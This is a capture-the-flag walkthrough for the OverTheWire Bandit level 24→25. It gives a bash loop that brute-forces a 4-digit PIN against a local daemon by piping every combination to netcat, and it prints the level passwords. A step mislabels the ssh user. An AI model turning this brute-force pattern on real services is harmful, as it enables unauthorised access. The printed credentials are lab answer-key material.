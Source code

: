 # Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

# Solution

It is apparent that we need to create a script and for training purposes it is going to be a bash script. The script Runs over all the possible 4 digit combinations and then returns the correct value when found.
1. Create a directory in /tmp.
```Bash
mkdir /tmp/bandit24
```

2. Create a bash script file.
```Bash
touch /tmp/bandit24/bruteforce.sh
```

3. Edit bash script.
```Bash
nano /tmp/bandit24/bruteforce.sh
```

4. The bash Script is as follows.
```Bash
#!/bin/bash
rm /tmp/bandit25/output
for i in {0000..9999}
do 
  echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i
done | nc localhost 30002
```
Notice that the piping to the port is done only after all the combinations had finished computing. The basic reason for this is that if netcat is called everytime, this would create multiple procesess that wont shutdown as we dont know the PID of each command. These processes needs resources to stay alive after they have done their purpose, so after a while there are no longer resources to allocate for new commands. So in short, it is more efficient to send all the data all at once instead of sending through the script.


5. CD into Run the script until the password appears.
```Bash
./bruteforce.sh
```
The password should be visible now.

6. Exit the bandit24 shell
```Bash
exit
```

7. ssh into bandit25
```Bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
Password: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
